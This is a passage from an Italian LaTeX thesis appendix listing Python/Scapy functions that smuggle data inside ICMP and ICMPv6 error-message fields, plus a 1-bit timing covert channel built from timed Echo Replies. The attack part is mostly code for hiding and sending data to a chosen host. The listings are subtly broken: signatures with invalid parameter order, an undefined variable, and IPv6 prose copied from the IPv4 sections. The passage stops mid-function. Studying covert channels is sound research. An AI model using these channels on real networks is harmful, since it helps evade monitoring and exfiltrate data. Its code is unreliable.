    \item Un livello \textbf{Raw} contenente l'internet header +64 bits di dati del datagram a cui la Redirect si riferisce. 
\end{itemize}  
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMP}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_time_exceeded}, emphstyle=\color{red} 
    ,emph={[2]index, dummy_ip, pkt},emphstyle={[2]\color{blue}}  
    ,emph={[3]data, ip_dst}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_time_exceeded(data:bytes=None, ip_dst): 
    if not com.is_bytes(data) or not com.is_IPAddress(ip_dst):
        raise Exception(f"Argoemnti non corretti") 
    if ip_dst.version!=4:
        print(f"IP version is not 4: {ip_dst.version}")
        return False
        
    TYPE_TIME_EXCEEDED=11 
    for index in range(0, len(data), 8):
        integer=int.from_bytes(data[index+2:index+4])
        dummy_ip=IP(src="192.168.1.10", dst="8.8.8.8", len=integer) / \
            ICMP(id=int.from_bytes(data[index+4:index+6]))
        pkt= IP(dst=ip_dst)/\
            ICMP(type=11, unused=int.from_bytes(data[index:index+2]) )/\
            Raw(load=dummy_ip) 
        ans = send(pkt, verbose=1) 
    dummy_ip=IP(src="192.168.1.10", dst="8.8.8.8") / ICMP(id=0,seq=1)
    pkt= IP(dst=ip_dst)/ICMP(type=11)/Raw(load=dummy_ip) 
    ans = send(pkt, verbose=1) 
    if ans: 
        return True  
    return False  
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Time Exceeded}} 
\label{script:appendice:attacksingleton:send:v4_time_exceeded}  

\subsubsection*{Versione che usa il protocollo IPv6} 
Il metodo richiede in input una lista contenenti i dati espressi come bytes e l'indirizzo IP del mittente e del destinatario. 
Dopodichè ricava l'interfaccia connessa alla destinazione; 
ciò deve essere fatto sennò non si riuscirà ad instradare i pacchetti. 
Successivamente si ricava l'indirizzo MAC dell'interfaccia per la destinazione e l'indirizzo MAC dell'interfaccia per la sorgente. 
\vspace{1ex} \newline 
Poi procede nel seguente modo: 
itera per tutti gli indici che vanno da 0 sino alla dimensione della lista, 
con uno step pari \textbf{4 bytes} (ovvero la capacità di trasmissione dell'attacco). 
Dopodichè definisce i valori da inserire nei campi in questo modo: 
\begin{itemize}  
     \item Nel datagram, nel campo \textbf{plen} del protocollo \textit{IPv6Eerror}, e 
     nel campo \textbf{id} del protocollo \textit{ICMPv6}, inserirà \textbf{due bytes} di dati.   
\end{itemize}  
Terminato di calcolare i valori da immetere nei campi; si procede con la costruzione del pacchetto. 
\vspace{1ex} \newline  
Il pacchetto viene definito dai seguenti livelli: 
\begin{itemize}
    \item Il livello \textit{Ether}: in cui si specifica l'indirizzo \textbf{MAC di destinazione} e l'indirizzo \textbf{MAC sorgente}. 
    \item Il livello \textit{IPv6}: il cui \textbf{indirizzo IP di destinazione} è definito da l'indirzzo IP passato in input concatenato con lo \textbf{Scope ID} (ovvero l'interfaccia di uscita del pacchetto). 
    Si definirà anche l'\textbf{indirizzo IP del mittente}
    \item Il livello \textit{ICMPv6TimeExceeded}: la cui tipologia è \textit{Time Exceeded}.
    \item Un livello contenente il datagram composto dai livelli \textit{IPv6Error} e \textit{ICMPv6}. 
\end{itemize}
Dopodichè il messaggio viene spedito. 
\vspace{1ex} \newline 
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMPv6}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline 
Il pacchetto viene definito aggiungendo un livello che usa il prtocollo \textit{IP} seguito da un livello \textit{ICMP} e saranno impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene inserito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{Time Exceeded}) e il valore del campo \textbf{id}. 
    \item Un livello \textbf{Raw} contenente l'internet header +64 bits di dati del datagram a cui la Redirect si riferisce. 
\end{itemize}  
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMP}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv6_time_exceeded}, emphstyle=\color{red} 
    ,emph={[2]interface, dst_mac, src_mac},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, addr_src, addr_dst}, emphstyle={[3]\color{olive}} 
    ,emph={[4]index, pkt, dummy_pkt},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv6_time_exceeded(data:bytes=None, addr_src, addr_dst): 
        if not (is_bytes(data) and is_IPaddr(addr_src) and is_IPaddr(addr_dst)):
            raise Exception(f"Argoemnti non corretti")
        if addr_dst.version!=6:
            print(f"IP version is not 6: {addr_dst.version}")
            return False
        
        TYPE_TIME_EXCEEDED= 3
        TYPE_INFORMATION_REPLY=129 
        try:
            interface,_= mymethods.iface_src_from_IP(addr_dst) 
            if interface is None:  
                interface=mymethods.default_iface()
                com.ping_once(addr_dst,interface)
            interface,_= mymethods.iface_src_from_IP(addr_dst)
            if interface is None:
                raise Exception("Problema con l'interfaccia non risolto")  
        except Exception as e: 
            interface=mymethods.default_iface() 
        dst_mac=com.get_mac_by_ipv6(addr_dst, addr_src, interface)  
        src_mac = get_if_hwaddr(interface) 
        
        for index in range(0, len(data), 4): 
            integer=int.from_bytes(data[index:index+2]) 
            dummy_pkt=(
                IPv6(dst=f"{addr_dst}%{interface}",src=addr_src, plen=integer1)  
                /ICMPv6EchoReply(
                    type=129
                    ,id=int.from_bytes(data[index+6:index+8])
                    , seq=0)
            )
            pkt=(
                Ether(dst=dst_mac, src=src_mac) 
                /IPv6(dst=f"{addr_dst}%{interface}",src=addr_src)  
                /ICMPv6TimeExceeded(type=3) 
                /dummy_pkt
            ) 
            ans = sendp(pkt, verbose=1,iface=interface)  
        
        dummy_pkt=(
            IPv6(dst=f"{addr_dst}%{interface}",src=addr_src, plen=0xffff)  
            /ICMPv6EchoReply(type=129,id=0, seq=1)
        )
        pkt=(
            Ether(dst=dst_mac, src=src_mac) /
            IPv6(dst=f"{addr_dst}%{interface}",src=addr_src)  
            /ICMPv6TimeExceeded(type=3) 
            /dummy_pkt
        ) 
        ans = sendp(pkt, verbose=1,iface=interface) 
        if ans: 
            return True  
        return False
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Time Exceeded v6}} 
\label{script:appendice:attacksingleton:send:v6_time_exceeded} 
%-----------------------------------

\subsubsection{Destination Unreachable}
Il metodo richiede in input una lista contenenti i dati espressi come bytes e l'indirizzo IP del destinatario. 
Dopo aver ricavato l'interfaccia che verrà usate per inoltrare i dati; procederà nel seguente modo. 
\vspace{1ex} \newline 
Itera per tutti gli indici che vanno da 0 sino alla dimensione della lista con uno step pari \textbf{8 bytes} (ovvero la capaità di trasmissione dell'attacco). 
Dopodichè definisce i valori da inserire nei campi in questo modo: 
\begin{itemize} 
    \item Nel campo \textbf{unused} del protocollo \textit{ICMP} inserisce \textbf{4 bytes}. 
     \item Invece nel datagram, nel campo \textbf{len} del protocollo \textit{IPerror}, e 
     nel campo \textbf{id} del protocollo \textit{ICMP}, inserirà due bytes di dati.    
\end{itemize}  
Terminato di calcolare i valori per i campi; procede con la costruzione del pacchetto. 
\vspace{1ex} \newline 
Il pacchetto viene definito aggiungendo un livello che usa il prtocollo \textit{IP} seguito da un livello \textit{ICMP} e saranno impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene inserito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{Time Exceeded}) e il valore del campo \textbf{id}. 
    \item Un livello \textbf{Raw} contenente l'internet header +64 bits di dati del datagram a cui la Redirect si riferisce. 
\end{itemize}  
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMP}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
   language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_destination_unreachable}, emphstyle=\color{red} 
    ,emph={[2]index, dummy_ip, pkt},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, ip_dst}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_destination_unreachable(data:bytes=None, ip_dst): 
    if not com.is_bytes(data) or not com.is_IPAddress(ip_dst):
        raise Exception(f"Argoemnti non corretti")
    if ip_dst.version!=4:
        print(f"IP version is not 4: {ip_dst.version}")
        return False
    interface,_=mymethods.iface_src_from_IP(ip_dst) 
    TYPE_DESTINATION_UNREACHABLE=3 
    for index in range(0, len(data), 8):
        integer=int.from_bytes(data[index+4:index+6])
        dummy_ip=IP(src=ip_dst, dst="8.8.8.8", len=integer) / \
            ICMP(id=int.from_bytes(data[index+6:index+8]))
        integer=int.from_bytes(data[index:index+4])
        pkt= IP(dst=ip_dst)/\
            ICMP(type=3, unused=integer)/\
            Raw(load=dummy_ip) 
        print(pkt.show())
        if pkt:
            ans = send(pkt, verbose=1, iface=interface) 
    dummy_ip=IP(src=ip_dst, dst="8.8.8.8") / ICMP(id=0,seq=1)
    pkt= IP(dst=ip_dst)/ICMP(type=3)/Raw(load=dummy_ip) 
    print(f"interface: {interface}")
    ans = send(pkt, verbose=1, iface=interface) 
    if ans: 
        return True  
    return False
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Destination Unreachable}} 
\label{script:appendice:attacksingleton:send:v4_destination_unreachable} 

\subsubsection*{Versione che usa il protocollo IPv6} 
Il metodo richiede in input una lista contenenti i dati espressi come bytes e l'indirizzo IP del mittente e del destinatario. 
Dopodichè ricava l'interfaccia connessa alla destinazione; 
ciò deve essere fatto sennò non si riuscirà ad instradare i pacchetti. 
Successivamente si ricava l'indirizzo MAC dell'interfaccia per la destinazione e l'indirizzo MAC dell'interfaccia per la sorgente. 
\vspace{1ex} \newline 
Poi procede nel seguente modo: 
itera per tutti gli indici che vanno da 0 sino alla dimensione della lista, 
con uno step pari \textbf{4 bytes} (ovvero la capacità di trasmissione dell'attacco). 
Dopodichè definisce i valori da inserire nei campi in questo modo: 
\begin{itemize} 
    \item Nel datagram, nel campo \textbf{plen} del protocollo \textit{IPv6Eerror}, e 
    nel campo \textbf{id} del protocollo \textit{ICMPv6}, inserirà \textbf{due bytes} di dati.   
\end{itemize}  
Terminato di calcolare i valori da immetere nei campi; si procede con la costruzione del pacchetto. 
\vspace{1ex} \newline  
Il pacchetto viene definito dai seguenti livelli: 
\begin{itemize}
    \item Il livello \textit{Ether}: in cui si specifica l'indirizzo \textbf{MAC di destinazione} e l'indirizzo \textbf{MAC sorgente}. 
    \item Il livello \textit{IPv6}: il cui \textbf{indirizzo IP di destinazione} è definito da l'indirzzo IP passato in input concatenato con lo \textbf{Scope ID} (ovvero l'interfaccia di uscita del pacchetto). 
    Si definirà anche l'\textbf{indirizzo IP del mittente}
    \item Il livello \textit{ICMPv6DestUnreach}: la cui tipologia è \textit{DestUnreach}.
    \item Un livello contenente il datagram composto dai livelli \textit{IPv6Error} e \textit{ICMPv6}. 
\end{itemize}
Dopodichè il messaggio viene spedito. 
\vspace{1ex} \newline 
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMPv6}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline 
Il pacchetto viene definito aggiungendo un livello che usa il prtocollo \textit{IP} seguito da un livello \textit{ICMP} e saranno impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene inserito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{DestUnreach}) e il valore del campo \textbf{id}. 
    \item Un livello \textbf{Raw} contenente l'internet header +64 bits di dati del datagram a cui la Redirect si riferisce. 
\end{itemize}  
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMP}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={}, emphstyle=\color{red} 
    ,emph={[2]interface, dst_mac, src_mac},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, addr_src, addr_dst}, emphstyle={[3]\color{olive}} 
    ,emph={[4]index, pkt, dummy_pkt},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv6_destination_unreachable(data:bytes=None, addr_src, addr_dst): 
        if not (is_bytes(data) and is_IPaddr(addr_src) and is_IPaddr(addr_dst)):
            raise Exception(f"Argoemnti non corretti")
        if addr_dst.version!=6:
            print(f"IP version is not 6: {addr_dst.version}")
            return False
        
        TYPE_DESTINATION_UNREACHABLE=1 
        TYPE_INFORMATION_REQUEST=128
        TYPE_INFORMATION_REPLY=129 
        try:
            interface,_= mymethods.iface_src_from_IP(addr_dst) 
            if interface is None:  
                interface=mymethods.default_iface()
                com.ping_once(addr_dst,interface)
            interface,_= mymethods.iface_src_from_IP(addr_dst)
            if interface is None:
                raise Exception("Problema con l'interfaccia non risolto")  
        except Exception as e: 
            interface=mymethods.default_iface() 
        dst_mac=com.get_mac_by_ipv6(addr_dst, addr_src, interface)  
        src_mac = get_if_hwaddr(interface) 

        for index in range(0, len(data), 4): 
            dummy_pkt=(
                IPv6(
                	dst=f"{addr_dst}%{interface}"
                	,src=addr_src, plen=int.from_bytes(data[index:index+2])
		)  /
                ICMPv6EchoReply(type=129,id=int.from_bytes(data[index+2:index+4]), seq=0)
            )
            pkt=(
                Ether(dst=dst_mac, src=src_mac) /
                IPv6(dst=f"{addr_dst}%{interface}",src=addr_src)  /
                ICMPv6DestUnreach(type=1) /
                dummy_pkt
            ) 
            ans = sendp(pkt, verbose=1,iface=interface)  
        dummy_pkt=(
            IPv6(dst=f"{addr_dst}%{interface}",src=addr_src, plen=0xffff)  /
            ICMPv6EchoReply(type=129,id=0, seq=1)
        )
        pkt=(
            Ether(dst=dst_mac, src=src_mac) /
            IPv6(dst=f"{addr_dst}%{interface}",src=addr_src)  /
            ICMPv6DestUnreach(type=1) /
            dummy_pkt
        ) 
        ans = sendp(pkt, verbose=1,iface=interface) 
        if ans: 
            return True  
        return False
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Destination Unreachable v6}} 
\label{script:appendice:attacksingleton:send:v6_destination_unreachable} 
%-----------------------------------

\subsubsection*{Packet too Big} 
Il metodo richiede in input una lista contenenti i dati espressi come bytes e l'indirizzo IP del mittente e del destinatario. 
Dopodichè ricava l'interfaccia connessa alla destinazione; 
ciò deve essere fatto sennò non si riuscirà ad instradare i pacchetti. 
Successivamente si ricava l'indirizzo MAC dell'interfaccia per la destinazione e l'indirizzo MAC dell'interfaccia per la sorgente. 
\vspace{1ex} \newline 
Poi procede nel seguente modo: 
itera per tutti gli indici che vanno da 0 sino alla dimensione della lista, 
con uno step pari \textbf{8 bytes} (ovvero la capacità di trasmissione dell'attacco). 
Dopodichè definisce i valori da inserire nei campi in questo modo: 
\begin{itemize}  
    \item Nel campo \textbf{mtu} \textit{ICMPv6PacketTooBig} inserisce \textbf{4 bytes}. 
    \footnote{\textit{mtu} indica la massima capacità di trasmissione del link su cui si effettua il salto successivo}
    \item Nel datagram, nel campo \textbf{plen} del protocollo \textit{IPv6Eerror}, e 
    nel campo \textbf{id} del protocollo \textit{ICMPv6}, inserirà \textbf{due bytes} di dati.   
\end{itemize}  
Terminato di calcolare i valori da immetere nei campi; si procede con la costruzione del pacchetto. 
\vspace{1ex} \newline  
Il pacchetto viene definito dai seguenti livelli: 
\begin{itemize}
    \item Il livello \textit{Ether}: in cui si specifica l'indirizzo \textbf{MAC di destinazione} e l'indirizzo \textbf{MAC sorgente}. 
    \item Il livello \textit{IPv6}: il cui \textbf{indirizzo IP di destinazione} è definito da l'indirzzo IP passato in input concatenato con lo \textbf{Scope ID} (ovvero l'interfaccia di uscita del pacchetto). 
    Si definirà anche l'\textbf{indirizzo IP del mittente}
    \item Il livello \textit{ICMPv6PacketTooBig}: la cui tipologia è \textit{Packet too Big}.
    \item Un livello contenente il datagram composto dai livelli \textit{IPv6Error} e \textit{ICMPv6}. 
\end{itemize}
Dopodichè il messaggio viene spedito. 
\vspace{1ex} \newline 
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMPv6}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline 
Il pacchetto viene definito aggiungendo un livello che usa il prtocollo \textit{IP} seguito da un livello \textit{ICMP} e saranno impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene inserito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{PacketTooBig}) e il valore del campo \textbf{id}. 
    \item Un livello \textbf{Raw} contenente l'internet header +64 bits di dati del datagram a cui la Redirect si riferisce. 
\end{itemize}  
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMP}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv6_packet_to_big}, emphstyle=\color{red} 
    ,emph={[2]interface, dst_mac, src_mac},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, addr_src, addr_dst}, emphstyle={[3]\color{olive}} 
    ,emph={[4]index, pkt, dummy_pkt},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv6_packet_to_big(data:bytes=None, addr_src, addr_dst): 
        if not(is_bytes(data) and is_IPaddr(addr_src) and is_IPaddr(addr_dst)):
            raise Exception(f"Argoemnti non corretti")
        if addr_dst.version!=6:
            print(f"IP version is not 6: {addr_dst.version}")
            return False
        
        TYPE_PKT_BIG= 2
        TYPE_INFORMATION_REQUEST=128
        TYPE_INFORMATION_REPLY=129  
        try:
            interface,_= mymethods.iface_src_from_IP(addr_dst) 
            if interface is None:  
                interface=mymethods.default_iface()
                com.ping_once(addr_dst,interface)
            interface,_= mymethods.iface_src_from_IP(addr_dst)
            if interface is None:
                raise Exception("Problema con l'interfaccia non risolto")  
        except Exception as e: 
            interface=mymethods.default_iface() 
        dst_mac=com.get_mac_by_ipv6(addr_dst, addr_src, interface)  
        src_mac = get_if_hwaddr(interface)  
        
        for index in range(0, len(data), 8): 
            integer=int.from_bytes(data[index+4:index+6])
            dummy_pkt=(
                IPv6(dst=f"{addr_dst}%{interface}",src=addr_src, plen=integer)  
                /ICMPv6EchoReply(
                    type=129
                    ,id=int.from_bytes(data[index+6:index+8])
                    , seq=0
                ) 
            )
            integer=int.from_bytes(data[index:index+4])
            pkt=(
                Ether(dst=dst_mac, src=src_mac) 
                /IPv6(dst=f"{addr_dst}%{interface}",src=addr_src)  
                /ICMPv6PacketTooBig(type=2, mtu=integer) 
                /dummy_pkt
            )  
            ans = sendp(pkt, verbose=1,iface=interface)  

        dummy_pkt=(
            IPv6(dst=f"{addr_dst}%{interface}",src=addr_src, plen=0xffff)  /
            ICMPv6EchoReply(type=129,id=0, seq=1)
        )
        pkt=(
            Ether(dst=dst_mac, src=src_mac) /
            IPv6(dst=f"{addr_dst}%{interface}",src=addr_src)  /
            ICMPv6PacketTooBig(type=2, mtu=0) /
            dummy_pkt
        )  
        ans = sendp(pkt, verbose=1,iface=interface) 
        if ans: 
            return True  
        return False
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Packet too Big v6}} 
\label{script:appendice:attacksingleton:send:v6_packet_to_big} 

\subsubsection{Timing Covert Channel con 1 bit} 
In questa versione si definisce un \textit{Timing Covert Channel} che codifica \textbf{un singolo bit}. 
Successivametne si descriveranno anche versioni che useranno un numero maggiore di bit; 
tuttavia questa funzione è stata utilizzata come schema per generare un metodo generale. 
\vspace{1ex} \newline
Si definisce un \textbf{tempo di base} di \textit{3 secondi} e una \textbf{distanza} fra i due tempi di almeno \textit{2 secondi}. 
Da ciò si ricaverà un \textbf{secondo tempo} di \textit{8 secondi} [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:1bit}  line 7]. 
La condizione perchè i die tempi siano validi è che:
\begin{itemize}
    \item Il tempo successivo deve essere maggiore del tempo precedente + 2 volte la distanza
\end{itemize} 
Sarà anche presente un tempo (in minuti) che definisce quanto aspettare una volta che si è mandato un byte. 
Ciò potrà essere usato per rendere lo scambio di informazioni troppo visibile. 
\vspace{1ex} \newline 
Si ricava poi il giorno corrente e si converte ogni byte presente nel dato; 
in una lista contenente i singoli bit [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:1bit}  line 21]. 
Ciò verrà fatto per preparare i dati alla strasmissione successiva.  
\footnote{
    I byte vengono aggiunti seguendo l'ordine BigEndian; 
    mentre i bit vengono aggiunti secondo l'oridne LSB. 
    Questo perchè il ricevente aggiungerà i bit arrivati, alla lista dei dati, a destra. 
}
\vspace{1ex} \newline 
Dopodichè si manda un pacchetto per inizializzare il tempo del ricevente e si procede con il ciclo. 
In esso si itera su ogni bit che è stato aggiunto alla lista precedente e si controlla se è pari a \textit{1} o \textit{0}.  
In base a ciò si aspetterà un diverso periodo di tempo [Code:\ref{script:appendice:attacksingleton:send:v4_timing_channel:1bit}  line 28]. 
Finito di aspettare manderà un pacchetti \textit{ICMP} di tipo \textit{Echo Reply}. 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_timing_channel_1bit}, emphstyle=\color{red} 
    ,emph={[2]TEMPO_0, DISTANZA_TEMPI, TEMPO_1},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, ip_dst, piece_data}, emphstyle={[3]\color{olive}} 
    ,emph={[4]bit_data, bit},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_timing_channel_1bit(data:bytes=None, ip_dst): 
    if not com.is_bytes(data) or not com.is_IPAddress(ip_dst):
        raise Exception(f"Argoemnti non corretti")
    if ip_dst.version!=4:
        print(f"IP version is not 4: {ip_dst.version}")
        return False
        
    TEMPO_0=3 #sec
    DISTANZA_TEMPI=2 #sec
    TEMPO_1=8 #sec
    if TEMPO_0+DISTANZA_TEMPI*2>=TEMPO_1: 
        raise ValueError("send_timing_cc: TEMPO_1 non valido")
    TEMPO_BYTE=0*60 #minuti
    
    TYPE_ECHO_REQUEST=8
    TYPE_ECHO_REPLY=0
    midnight = datetime.datetime.now(datetime.timezone.utc)
    midnight = midnight.replace(hour=0, minute=0, second=0, microsecond=0)

    bit_data=[]
    for piece_data in data: #byte aggiunti in BIG ENDIAN
        arr=[(piece_data >> index) & 1 for index in range(8)]
        bit_data.append(arr) #bit aggiunti in LSB  
    
    start_time=datetime.datetime.now(datetime.timezone.utc) 
    pkt= IP(dst=ip_dst)/ICMP(type=TYPE_ECHO_REPLY)/Raw() 
    ans = send(pkt, verbose=1) 
    for piece_bit_data in bit_data:
        for bit in piece_bit_data:
            if bit: 
                time.sleep(TEMPO_1) 
            else: 
                time.sleep(TEMPO_0) 
            pkt= IP(dst=ip_dst)/ICMP(type=TYPE_ECHO_REPLY)/Raw() 
            ans = send(pkt, verbose=1) 
        time.sleep(TEMPO_BYTE)
    end_time=datetime.datetime.now(datetime.timezone.utc) 
\end{lstlisting}
\captionof{lstlisting}{Timing Covert Channel a 1 bit} 
\label{script:appendice:attacksingleton:send:v4_timing_channel:1bit} 

\subsubsection*{Versione che usa il protocollo IPv6} 
In questa versione si definisce un \textit{Timing Covert Channel} che codifica \textbf{un singolo bit}. 
Successivametne si descriveranno anche versioni che useranno un numero maggiore di bit; 
tuttavia questa funzione è stata utilizzata come schema per generare un metodo generale. 
\vspace{1ex} \newline 
Il metodo richiede in input una lista contenenti i dati espressi come bytes e l'indirizzo IP del mittente e del destinatario. 
Dopodichè si definisce un \textbf{tempo di base} di \textit{3 secondi} e una \textbf{distanza} fra i due tempi di almeno \textit{2 secondi}. 
Da ciò si ricaverà un \textbf{secondo tempo} di \textit{8 secondi} [Code:\ref{script:appendice:attacksingleton:send:v6_timing_channel:1bit}  line 7]. 
La condizione perchè i due tempi siano validi è che: 
\begin{itemize}
    \item Il tempo successivo deve essere maggiore del tempo precedente + 2 volte la distanza
\end{itemize} 
Sarà anche presente un tempo (in minuti) che definisce quanto aspettare una volta che si è mandato un byte. 
Ciò potrà essere usato per rendere lo scambio di informazioni troppo visibile. 
Successivamente si ricaverà l'interfaccia connessa alla destinazione 
(ciò deve essere fatto sennò non si riuscirà ad instradare i pacchetti) 
e poi si ricava l'indirizzo MAC dell'interfaccia per la destinazione e l'indirizzo MAC dell'interfaccia per la sorgente.
\vspace{2ex} \newline  
Il metodo poi procede nel seguente modo: 
si ricava poi il giorno corrente e si converte ogni byte presente nel dato; 
in una lista contenente i singoli bit [Code:\ref{script:appendice:attacksingleton:send:v6_timing_channel:1bit}  line 21]. 
Ciò verrà fatto per preparare i dati alla strasmissione successiva.  
\footnote{
    I byte vengono aggiunti seguendo l'ordine BigEndian; 
    mentre i bit vengono aggiunti secondo l'oridne LSB. 
    Questo perchè il ricevente aggiungerà i bit arrivati, alla lista dei dati, a destra. 
}
\vspace{1ex} \newline 
Dopodichè si manda un pacchetto per inizializzare il tempo del ricevente. 
Il messaggio sarà composto dai seguenti livelli: 
\begin{itemize}
    \item Il livello \textit{Ether}: 
    in cui si specifica l'indirizzo \textbf{MAC di destinazione} e l'indirizzo \textbf{MAC sorgente}. 
    \item Il livello \textit{IPv6}: 
    il cui \textbf{indirizzo IP di destinazione} è definito da l'indirzzo IP passato in input concatenato con lo \textbf{Scope ID}. 
    Si definirà anche l'\textbf{indirizzo IP del mittente}
    \item Il livello \textit{ICMPv6EchoReply}: la cui tipologia è \textit{Echo Reply}.
    \item Un livello \textit{Raw} contenente solo il testo '\textit{Hello Neighbour}'.
\end{itemize}
Dopodichè il messaggio viene spedito e si procederà con l'estrazione dei singoli bit dal dato passato. 
\vspace{1ex} \newline  
Ora si effettuerà un ciclo così da iterare su ogni bit e si controlla se è pari a \textit{1} o \textit{0}. 
In base a ciò si aspetterà un diverso periodo di tempo [Code:\ref{script:appendice:attacksingleton:send:v6_timing_channel:1bit}  line 47]. 
Finito di aspettare manderà un pacchetto \textit{ICMP} di tipo \textit{Echo Reply} definito nello stesso modo del precedente. 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv6_timing_channel_1bit}, emphstyle=\color{red} 
    ,emph={[2]interface, dst_mac, src_mac, TEMPO_0, DISTANZA_TEMPI, TEMPO_1},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, addr_src, addr_dst, data, ip_dst, piece_data}, emphstyle={[3]\color{olive}} 
    ,emph={[4]index, pkt, dummy_pkt, bit_data, bit},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv6_timing_channel_1bit(data:bytes=None, addr_src, addr_dst): 
        if not(is_bytes(data) and is_IPaddr(addr_src) and is_IPaddr(addr_dst)):
            raise Exception(f"Argoemnti non corretti")
        if addr_dst.version!=6:
            print(f"IP version is not 6: {addr_dst.version}")
            return False
        
        TEMPO_0=3 #sec
        DISTANZA_TEMPI=2 #sec
        TEMPO_1=8 #sec
        if TEMPO_0+DISTANZA_TEMPI*2>=TEMPO_1: 
            raise ValueError("send_timing_channel: TEMPO_1 non valido")
        TEMPO_BYTE=0*60 #minuti

        TYPE_INFORMATION_REQUEST=128
        TYPE_INFORMATION_REPLY=129
        
        try:
            interface,_= mymethods.iface_src_from_IP(addr_dst) 
            if interface is None:  
                interface=mymethods.default_iface()
                com.ping_once(addr_dst,interface)
            interface,_= mymethods.iface_src_from_IP(addr_dst)
            if interface is None:
                raise Exception("Problema con l'interfaccia non risolto")  
        except Exception as e: 
            interface=mymethods.default_iface() 
        dst_mac=com.get_mac_by_ipv6(addr_dst, addr_src, interface)  
        src_mac = get_if_hwaddr(interface) 
        
        midnight= datetime.datetime.now(datetime.timezone.utc)
        midnight= midnight.replace(hour=0, minute=0, second=0, microsecond=0) 
        bit_data=[]
